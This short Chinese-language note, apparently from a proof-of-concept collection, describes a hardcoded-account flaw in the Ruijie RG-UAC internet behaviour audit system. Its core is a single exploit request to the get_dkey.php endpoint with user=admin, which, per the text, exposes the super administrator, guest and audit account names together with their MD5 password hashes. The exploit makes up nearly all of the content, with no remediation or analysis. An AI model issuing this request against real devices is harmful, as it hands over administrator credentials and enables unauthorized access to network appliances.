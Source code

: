 # 锐捷 RG-UAC 统一上网行为管理审计系统 账户硬编码漏洞
    poc：
    https://127.0.0.1/get_dkey.php?user=admin

成功访问后，可看到该系统的超级管理员权限账号、访客权限账号、审计权限账号的 账户名 和 MD5 加密的密码值